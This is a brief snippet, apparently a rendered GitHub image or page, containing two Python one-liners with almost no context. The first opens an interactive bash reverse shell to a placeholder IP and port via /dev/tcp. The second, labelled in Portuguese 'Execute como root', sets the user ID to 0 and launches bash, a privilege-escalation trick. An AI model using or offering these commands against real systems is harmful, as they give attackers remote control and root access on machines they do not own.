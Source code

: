 ```python
__import__("os").popen("/bin/bash -c '/bin/bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'").read()
```

Execute como root
```python
python3 -c "import os; os.setuid(0);os.system('/bin/bash')"
```